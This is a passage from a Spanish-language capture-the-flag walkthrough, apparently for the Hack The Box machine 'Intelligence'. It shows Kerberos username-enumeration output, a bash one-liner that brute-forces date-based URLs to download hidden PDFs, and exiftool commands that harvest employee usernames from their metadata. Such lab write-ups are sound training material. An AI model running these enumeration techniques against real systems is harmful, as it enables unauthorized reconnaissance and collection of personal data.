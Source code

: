      Version: v1.0.3 (9dad6e1) - 03/15/23 - Ronnie Flathers @ropnop

     2023/03/15 13:31:03 >  Using KDC(s):
     2023/03/15 13:31:03 >   10.10.10.248:88

     2023/03/15 13:31:03 >  [+] VALID USERNAME:       William.Lee@intelligence.htb
     2023/03/15 13:31:03 >  [+] VALID USERNAME:       Jose.Williams@intelligence.htb

ya tenemos 2 usuarios validos del dominio pero no son asreproasteables

## [](header-2)Bash Script

con este one liner en bash vamos a poder descargarnos todos los PDFs que existen en la carpeta documents, porque desde la pagina web
no nos deja entrar y ver los archivos


     for i in {2020..2022}; do for j in {1..12}; do for k in {01..31}; do echo "http://10.10.10.248/documents/$i-$j-$k-upload.pdf"; done; done; done | xargs -n 1 -P 20 wget

     ❯ ll
     total 368
     -rw-r--r-- 1 root root 11248 abr  1  2021 2020-10-05-upload.pdf
     -rw-r--r-- 1 root root 27196 abr  1  2021 2020-10-19-upload.pdf
     -rw-r--r-- 1 root root 26599 abr  1  2021 2020-11-01-upload.pdf
     -rw-r--r-- 1 root root 25568 abr  1  2021 2020-11-03-upload.pdf
     -rw-r--r-- 1 root root 25964 abr  1  2021 2020-11-06-upload.pdf
     -rw-r--r-- 1 root root 25472 abr  1  2021 2020-11-10-upload.pdf
     -rw-r--r-- 1 root root 26461 abr  1  2021 2020-11-11-upload.pdf
     -rw-r--r-- 1 root root 11074 abr  1  2021 2020-11-13-upload.pdf
     -rw-r--r-- 1 root root 11412 abr  1  2021 2020-11-24-upload.pdf
     -rw-r--r-- 1 root root 27286 abr  1  2021 2020-11-30-upload.pdf
     -rw-r--r-- 1 root root 26762 abr  1  2021 2020-12-10-upload.pdf
     -rw-r--r-- 1 root root 27242 abr  1  2021 2020-12-15-upload.pdf
     -rw-r--r-- 1 root root 11902 abr  1  2021 2020-12-20-upload.pdf
     -rw-r--r-- 1 root root 26825 abr  1  2021 2020-12-24-upload.pdf
     -rw-r--r-- 1 root root 11480 abr  1  2021 2020-12-28-upload.pdf
     -rw-r--r-- 1 root root 25109 abr  1  2021 2020-12-30-upload.pdf
     
estos son todos los pdf que obtuvimos
                                                                                                                                                                                                                 
     ❯ exiftool *.pdf | grep "Creator"
     Creator                         : Anita.Roberts
     Creator                         : Teresa.Williamson
     Creator                         : Kaitlyn.Zimmerman
     Creator                         : Jose.Williams
     Creator                         : Stephanie.Young
     Creator                         : Samuel.Richardson
     Creator                         : Tiffany.Molina
     Creator                         : Ian.Duncan
     Creator                         : Kelly.Long
     Creator                         : Travis.Evans
     Creator                         : Ian.Duncan
     Creator                         : Jose.Williams
     Creator                         : David.Wilson
     Creator                         : Thomas.Hall
     Creator                         : Ian.Duncan
     Creator                         : Jason.Patterson
